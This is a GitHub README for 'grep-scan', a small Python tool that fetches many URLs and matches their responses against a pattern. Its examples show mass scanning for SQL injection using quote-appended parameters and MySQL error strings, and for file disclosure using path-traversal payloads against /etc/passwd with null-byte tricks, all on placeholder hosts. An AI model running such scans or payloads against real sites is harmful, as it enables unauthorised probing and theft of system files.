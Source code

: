 # Grep Scan

Grep-Scan is a simple python script to match results in web requests

Requirements
-
- Python 2.7
- Requests

Install
-

```
pip install requests
git clone https://github.com/proclnas/grep-scan.git
cd grep-scan
python grep-scan.py --help
```

Usage
-
You can pass a single string or regexp to the -p/--pattern param to get pages with the correspondent
pattern.

The main pivot of the grep scan is the re.search, so you can mount your expression based on it.
See the [full documentation](https://docs.python.org/2/library/re.html#re.search) to more details:



## Single string
#### Get all pages with bar in the body response:
```
python -f uris.txt -p "bar" -t 20 -o pages-with-bar-word.txt 
```

## RegExp
#### Get all possible sites vulnerable to sqli

```
$ head uris.txt
http://site-fake.com/page.php?id=10'
http://site-fake.com/article.php?id=30'
http://site-fake.com/about.php?id=764'
```
Scan:
```
python -f uris.txt -p "/Mysql_|SQL|mysql_num_rows()|mysql_fetch_assoc()/" -t 50 -o sqli.txt
```

Output:
```
[+][Pattern found] http://site-fake.com/article.php?id=30'
```

#### Get all possible sites vulnerable to lfi/lfd/rfi/etc
```
$ head uris.txt
http://site-fake.com/download.php?file=../../../../../../../../etc/passwd
http://site-fake.com/file.php?download=../../../../../../../../etc/passwd%00
http://site-fake.com/pdf.php?get=../../../../../../../../etc/passwd%00
```
Scan:
```
python -f uris.txt -p "root:" -t 50 -o file-disclousure.txt
```

Output:
```
[+][Pattern found] http://site-fake.com/file.php?download=../../../../../../../../etc/passwd%00
```

## Contribute
Feel free to fork and send a pr.
